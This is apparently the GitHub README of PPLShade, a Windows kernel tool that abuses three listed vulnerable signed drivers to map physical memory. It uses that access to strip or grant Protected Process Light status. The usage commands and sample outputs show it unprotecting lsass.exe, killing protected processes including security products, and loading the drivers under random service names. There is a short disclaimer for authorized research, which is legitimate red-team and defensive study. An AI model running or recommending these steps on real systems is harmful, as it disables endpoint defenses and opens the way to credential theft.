

<p align="center">
  
</p>

# PPLShade

Multi-driver BYOVD tool for manipulating Windows Protected Process Light (PPL) protection at the kernel level. Auto-detects loaded drivers, resolves EPROCESS offsets dynamically, and reads/writes kernel memory through physical memory mapping.

Tested on Windows 10/11 x64.

## Features

- **Auto-detect** — probes all supported driver symlinks, uses whichever is loaded
- **Driver loader** — copies driver to `System32\drivers` with a random name, creates and starts the service
- **List** — enumerate all protected processes with protection level, signer type, signature levels, and kernel address
- **Get / Set / Protect** — query or modify protection level and signer type on any process
- **Unprotect** — strip PP/PPL protection and signature levels from any process
- **Kill** — unprotect + terminate any protected process (including EDR)
- **Dynamic offsets** — resolves EPROCESS fields from ntoskrnl exports at runtime, no hardcoded offsets
- **Static CRT** — `/MT` build, single standalone exe, no vcredist dependency

## Usage

```
PPLShade.exe load <driver.sys>           Load driver with random service name
PPLShade.exe unload                      Stop + delete driver service + cleanup

PPLShade.exe list                        List all protected processes
PPLShade.exe get <PID>                   Query protection of a process
PPLShade.exe set <PID> <PP|PPL> <T>      Change protection level + signer
PPLShade.exe protect <PID> <PP|PPL> <T>  Add protection to unprotected process
PPLShade.exe unprotect <PID>             Strip all protection
PPLShade.exe kill <PID>                  Unprotect + terminate
```

**Signer types:** `Authenticode`, `CodeGen`, `Antimalware`, `Lsa`, `Windows`, `WinTcb`, `WinSystem`, `App`

## Examples

### Load a driver
```
PS C:\> .\PPLShade.exe load LECOMAx64.sys
 [>] Copying driver to C:\Windows\System32\drivers\xkqmftab.sys
 [*] Driver copied
 [>] Creating service: xkqmftab
 [*] Service created
 [>] Starting driver...
 [*] Driver started
 [*] Service name: xkqmftab
 [*] Driver path:  C:\Windows\System32\drivers\xkqmftab.sys
 [>] Run 'unload' to stop and clean up when done.
```

### List protected processes
```
PS C:\> .\PPLShade.exe list
 [>] Initializing...
 [*] Ready
 [>] Mapping...
 [*] Ready
 [>] Probing drivers...
 [*] Detected: mtxvxd

   PID  | Process              | Level |    Signer      |  EXE Sig Level       |  DLL Sig Level       |   Kernel Addr
 -------+----------------------+--------+-----------------+----------------------+----------------------+--------------------
      4 | System               | PP (2) | WinSystem   (7) | WindowsTcb    (0x1e) | Windows       (0x1c) | 0xffff990660694040
    172 | Registry             | PP (2) | WinSystem   (7) | Unchecked     (0x00) | Unchecked     (0x00) | 0xffff990660763080
    584 | smss.exe             | PPL(1) | WinTcb      (6) | WindowsTcb    (0x3e) | Windows       (0x0c) | 0xffff99066d229040
    968 | services.exe         | PPL(1) | WinTcb      (6) | WindowsTcb    (0x3e) | Windows       (0x0c) | 0xffff99066c0890c0
    664 | lsass.exe            | PPL(1) | Lsa         (4) | Windows       (0x3c) | Microsoft     (0x08) | 0xffff99066c096080

 [*] Enumerated 16 protected processes out of 162 total
```

### Get process protection
```
PS C:\> .\PPLShade.exe get 664
 [>] Initializing...
 [*] Ready
 [>] Mapping...
 [*] Ready
 [>] Probing drivers...
 [*] Detected: mtxvxd

 [*] PID 664 (lsass.exe) is PPL-Lsa (signer=4)
 [>]   EXE Sig:  Windows (0x3C)
 [>]   DLL Sig:  Microsoft (0x08)
 [>]   KAddr:              0xFFFF99066C096080
```

### Unprotect a process
```
PS C:\> .\PPLShade.exe unprotect 3532
 [>] Initializing...
 [*] Ready
 [>] Mapping...
 [*] Ready
 [>] Probing drivers...
 [*] Detected: mtxvxd

 [*] PID 3532 unprotected (was PPL-Lsa)
```

### Kill a protected process
```
PS C:\> .\PPLShade.exe kill 3532
 [>] Initializing...
 [*] Ready
 [>] Mapping...
 [*] Ready
 [>] Probing drivers...
 [*] Detected: mtxvxd

 [*] PID 3532 unprotected (was PPL-Lsa)
 [*] PID 3532 terminated
```

### Protect a process
```
PS C:\> .\PPLShade.exe protect 1234 PPL WinTcb
 [>] Initializing...
 [*] Ready
 [>] Mapping...
 [*] Ready
 [>] Probing drivers...
 [*] Detected: mtxvxd

 [*] PID 1234: protection set to PPL-WinTcb (was None-None)
 [*] PID 1234 is now fully protected with signature levels WindowsTcb / Windows
```

### Unload driver
```
PS C:\> .\PPLShade.exe unload
 [>] Stopping service: xkqmftab
 [*] Driver stopped
 [*] Service deleted
 [*] Driver file deleted: C:\Windows\System32\drivers\xkqmftab.sys
 [*] Cleanup complete
```

## Supported Drivers

| Driver | Symlink | SHA256 |
|--------|---------|--------|
| LECOMAx64.sys | `\\.\LECOMA64_2` | `0F2DFF4116A84241D8CAFE534B63454FB4EA26272DA8977BE03670701EC6631C` |
| ipctype.sys | `\\.\IPCType` | `8E2ACCE10D704C8B511C8B6211A2BE5D8E4ADE91EBCBDA2AC10018E4C0AE99FB` |
| mtxC9CB.sys | `\\.\DosMtxVxd` | `0414C0D5BB6DDBCC84B3D59CE411ACF1ED8B17D17054C6192E0A7594B5146D60` |

All three use MmMapIoSpace to map physical memory into usermode. SuperFetch (`NtQuerySystemInformation`) provides VA→PA translation.

## Build

1. Open `PPLShade.sln` in Visual Studio 2022
2. Make sure C++ Language Standard is set to **Preview - Features from the Latest C++ Working Draft (/std:c++latest)** — the SuperFetch VA→PA translation layer uses `std::expected` which requires this
3. Build **Release | x64**

## Disclaimer

This tool is provided for **educational and authorized security research purposes only**. Use of this tool against systems you do not own or have explicit written permission to test is illegal. The author is not responsible for any misuse or damage caused by this tool.

## Credits

**Jehad Abudagga** ([@j3h4ck](https://x.com/j3h4ck))

[](https://www.linkedin.com/in/jehadabudagga/)
[](https://x.com/j3h4ck)
[](https://t.me/j3h4ck)
[](https://medium.com/@jehadbudagga)
[](https://github.com/redteamfortress)
